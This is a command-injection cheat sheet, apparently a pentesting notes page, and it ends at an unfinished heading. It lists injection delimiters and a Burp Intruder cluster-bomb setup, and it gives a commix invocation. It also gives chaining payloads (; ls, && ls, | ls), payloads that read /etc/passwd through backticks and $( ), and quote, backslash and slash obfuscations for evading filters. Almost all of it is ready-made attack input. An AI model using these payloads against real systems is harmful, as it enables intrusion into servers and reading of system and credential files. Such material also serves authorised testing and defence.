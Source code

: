 ### Bypass Methods:
```bash
;^& && | || %0D %0A \n <
```

### Brute-force:
- Use a payload list of commands (`cmd.txt`).
- Use a delimiter list (`delimeter_list`).
- Cluster bomb attack: Combines different delimiters with parameters sequentially.

**Setting Payload in Injection Point:**
```bash
filename=$delimeter.txt$$cmd.txt$
```

**Burp Suite Intruder:**
- Use the cluster bomb attack type.
- Set two payloads to generate combinations of attacks.

### Exploitation Tool:
```bash
python commix.py -u <url>
```

### Chaining Commands:
```bash
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls  # Only if the first command fails
```

### Inside a Command:
```bash
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

### Bypass Techniques:
```bash
w'h'o'am'i  # Single quotes bypass
w"h"o"am"i  # Double quotes bypass
w\ho\am\i  # Backslash bypass
/\b\i\n/////s\h  # Slash bypass
who$@ami  # Using $@
echo $0   # Identifying shell
```
## Filter Bypasses

### Bypass Without Space
